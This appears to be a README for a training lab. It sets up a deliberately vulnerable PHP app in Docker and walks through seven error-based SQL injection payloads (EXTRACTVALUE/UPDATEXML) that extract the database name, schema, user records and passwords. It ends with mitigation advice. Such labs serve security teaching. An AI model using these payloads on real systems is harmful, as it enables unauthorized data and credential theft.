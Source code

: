 
# Error SQL injection: Setup and Exploitation Guide

This guide provides instructions to set up a vulnerable PHP web application, run it locally using Docker, and exploit SQL injection vulnerabilities to understand how such attacks work in real-world scenarios.
---

## Prerequisites

1. **Docker Installed**: Ensure Docker is installed on your system.
   - Check Docker version:
     
     docker --version
    

Install from docker.com if necessary.

2. **Basic Command Line Knowledge**: Ability to navigate and run commands in the terminal.

---

## Setting Up the Application
### Step 1: Clone the Repository
Clone this repository to your local machine:

git clone https://github.com/christina210490/Service_Web_Error_sqli.git
cd Error-SQLI

### Step 2: Build and Run the Docker Containers
1. Build the Docker Environment:

docker-compose build

2. Run the Docker Containers:

docker-compose up

3. Access the Application: Open your browser and navigate to:

http://localhost:8081


4. Stop the Application: 

Press Ctrl+C in the terminal running docker-compose or stop it with:

docker-compose down

## Exploiting the SQL Injection Vulnerability


The vulnerable application is set up with a sample database. Below are step-by-step instructions to exploit SQL injection vulnerabilities in this application.


Attack 1: Retrieve MySQL Version

Exploit to find the MySQL version:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, @@version)) -- -


Result: SQL error reveals the MySQL version: 5.7.44.

Attack 2: Retrieve Database Name:

Exploit to find the database name:

http://localhost:8081/user?id=1' AND UPDATEXML(1, CONCAT(0x0a, DATABASE()), 1) -- -
Result: SQL error reveals the database name: testdb.

Attack 3: Retrieve the Number of Tables in the Database

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = 'testdb'))) -- -

Result: There are 3 tables.

Attack 4: Retrieve Table Names

1. Retrieve all table names in one query:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'testdb'))) -- -

Result: orders,payments,users.

2. Retrieve table names one by one:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 0,1))) -- -

Result: orders

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 1,1))) -- -


Result: payments

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 2,1))) -- -
Result: users

Attack 5: Retrieve Column Information

1. Retrieve the number of columns in the users table:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT COUNT(*) FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'testdb'))) -- -

Result: 4.

2. Retrieve column names:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT column_name FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'testdb' LIMIT 0,1))) -- -

Result: id.

Repeat for other columns: name, email, password.

Attack 6: Retrieve User Data

Retrieve rows from the users table:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT CONCAT(id, ':', name, ':', email, ':', password) FROM users LIMIT 0,1))) -- -

Result: 1:Alice:alice@example.com:password1.

Repeat for other rows to retrieve all user data.

Attack 7: Extract All Passwords:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT GROUP_CONCAT(password SEPARATOR '') FROM users))) -- -

Result: password1password2password3.

---

# Impact

This application demonstrates the critical risks of SQL injection vulnerabilities, including:

1. Data Theft: Attackers can retrieve sensitive information like user credentials.

2. Database Manipulation: Malicious queries can delete, modify, or insert data.

3. System Exposure: Attackers can gain insights into system configurations.

---

# Mitigation

To prevent SQL injection:

1. Use Prepared Statements:

Avoid directly concatenating user inputs into SQL queries.
Use parameterized queries.

2.Input Validation:

Validate and sanitize all user inputs.
Reject unexpected or dangerous input patterns.

3. Least Privilege:

Restrict database permissions to limit the impact of an exploited vulnerability.

## Key Takeaways

- This app demonstrates the risks of unsanitized user inputs in SQL queries.
- Real-world attackers could exploit such vulnerabilities to steal sensitive data or manipulate the database.
- Always use prepared statements and validate user inputs to prevent SQL injection.

---

## Disclaimer: 

This guide is intended for educational purposes in a controlled environment. Unauthorized testing or exploitation is illegal and may lead to legal consequences.

